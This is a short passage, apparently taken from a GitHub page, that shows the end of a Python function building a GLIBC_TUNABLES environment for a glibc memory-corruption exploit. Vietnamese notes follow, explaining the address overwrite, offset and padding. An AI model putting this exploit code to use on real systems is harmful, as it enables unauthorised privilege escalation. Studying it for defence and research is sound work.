 ```python
        env.append(struct.pack("<Q", addr))
        env.append(b"")
    else:
        env.append(struct.pack("<L", addr))

    for i in range(384):
        env.append(b"")

    return env
```
- Xây dựng môi trường khai thác
- `adjust`: Số lượng byte cần điều chỉnh
- `addr`: Địa chỉ cần ghi đè
- `offset`: Offset trong bộ nhớ
- `bits`: Kiến trúc (32 hoặc 64 bit)
- Tạo các biến môi trường GLIBC_TUNABLES với các giá trị đặc biệt
- Thêm các chuỗi rỗng để điều chỉnh vị trí trong bộ nhớ
- Đóng gói địa chỉ theo định dạng little-endian
- Trả về danh sách các biến môi trường
